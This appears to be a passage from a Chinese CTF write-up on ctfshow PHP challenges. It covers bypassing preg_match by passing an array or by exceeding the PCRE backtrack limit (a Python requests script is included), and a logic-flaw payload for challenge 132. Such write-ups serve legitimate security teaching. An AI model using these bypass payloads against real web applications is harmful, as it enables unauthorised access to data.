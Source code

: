 
绕过preg_match

```
f[]=1ctfshow
```

当然看师傅们的博客说的预期解是这样的：

考察点：利用正则最大回溯次数绕过

https://www.laruence.com/2010/06/08/1579.html

https://www.freebuf.com/articles/web/190794.html

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。这样我们就可以绕过第一个正则表达式了。
 python脚本如下

```python
import requests
url="http://03771c3c-6afb-4457-a719-19cc6ccf922e.chall.ctf.show/"
data={
	'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text)
```

## 132

```PHP
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
 
```

考察： php中&&和||运算符应用 

访问/admin，获得源代码

payload

```
username=admin&password=1&code=admin
```

